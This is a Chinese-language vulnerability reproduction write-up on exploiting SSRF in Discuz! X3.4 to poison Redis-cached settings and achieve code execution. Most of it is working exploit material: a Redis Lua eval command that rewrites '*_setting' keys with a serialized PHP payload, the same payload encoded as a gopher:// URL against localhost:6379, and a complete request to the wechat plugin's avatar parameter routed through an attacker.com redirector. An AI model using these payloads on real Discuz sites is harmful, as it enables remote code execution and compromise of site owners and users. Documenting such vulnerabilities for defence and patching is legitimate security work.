


Discuz! X3.4 ssrf 攻击redis
===========================

一、漏洞简介
------------

需要得到authkey

二、漏洞影响
------------

Discuz x3.4

三、复现过程
------------

类似地，Dz 整合 Redis
配置成功后，默认情况下网站首页右下角会出现`Redis On`的标志：

SSRF 攻击 Redis 步骤实际上就比攻击 Memcache 简单了，因为 Redis 支持 lua
脚本，可以直接用 lua
脚本获取缓存键名而无需再去猜解前缀。当然能成功攻击的前提是 Redis
没有配置密码认证，Discuz requirepass 那一项为空：

Redis 交互命令行执行 lua 脚本：

    eval "local t=redis.call('keys','*_setting'); for i,v in ipairs(t) do redis.call('set', v, 'a:2:{s:6:\"output\";a:1:{s:4:\"preg\";a:2:{s:6:\"search\";a:1:{s:7:\"plugins\";s:4:\"/.*/\";}s:7:\"replace\";a:1:{s:7:\"plugins\";s:9:\"phpinfo()\";}}}s:13:\"rewritestatus\";i:1;}') end; return 1;" 0

同样地，对这个过程抓包，将数据包改成 gopher 的形式：

    gopher://localhost:6379/_*3%0d%0a%244%0d%0aeval%0d%0a%24264%0d%0alocal%20t%3Dredis.call('keys'%2C'*_setting')%3B%20for%20i%2Cv%20in%20ipairs(t)%20do%20redis.call('set'%2C%20v%2C%20'a%3A2%3A%7Bs%3A6%3A%22output%22%3Ba%3A1%3A%7Bs%3A4%3A%22preg%22%3Ba%3A2%3A%7Bs%3A6%3A%22search%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A4%3A%22%2F.*%2F%22%3B%7Ds%3A7%3A%22replace%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A9%3A%22phpinfo()%22%3B%7D%7D%7Ds%3A13%3A%22rewritestatus%22%3Bi%3A1%3B%7D')%20end%3B%20return%201%3B%0d%0a%241%0d%0a0%0d%0a

SSRF 利用：

    http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http%3A%2F%2Fattacker.com%2F302.php%3Furl%3DZ29waGVyOi8vbG9jYWxob3N0OjYzNzkvXyozJTBkJTBhJTI0NCUwZCUwYWV2YWwlMGQlMGElMjQyNjQlMGQlMGFsb2NhbCUyMHQlM0RyZWRpcy5jYWxsKCdrZXlzJyUyQycqX3NldHRpbmcnKSUzQiUyMGZvciUyMGklMkN2JTIwaW4lMjBpcGFpcnModCklMjBkbyUyMHJlZGlzLmNhbGwoJ3NldCclMkMlMjB2JTJDJTIwJ2ElM0EyJTNBJTdCcyUzQTYlM0ElMjJvdXRwdXQlMjIlM0JhJTNBMSUzQSU3QnMlM0E0JTNBJTIycHJlZyUyMiUzQmElM0EyJTNBJTdCcyUzQTYlM0ElMjJzZWFyY2glMjIlM0JhJTNBMSUzQSU3QnMlM0E3JTNBJTIycGx1Z2lucyUyMiUzQnMlM0E0JTNBJTIyJTJGLiolMkYlMjIlM0IlN0RzJTNBNyUzQSUyMnJlcGxhY2UlMjIlM0JhJTNBMSUzQSU3QnMlM0E3JTNBJTIycGx1Z2lucyUyMiUzQnMlM0E5JTNBJTIycGhwaW5mbygpJTIyJTNCJTdEJTdEJTdEcyUzQTEzJTNBJTIycmV3cml0ZXN0YXR1cyUyMiUzQmklM0ExJTNCJTdEJyklMjBlbmQlM0IlMjByZXR1cm4lMjAxJTNCJTBkJTBhJTI0MSUwZCUwYTAlMGQlMGE%253D&wxopenid=xxxyyyzzz

代码即再次执行成功。

参考链接
--------

> https://zhuanlan.zhihu.com/p/51907363
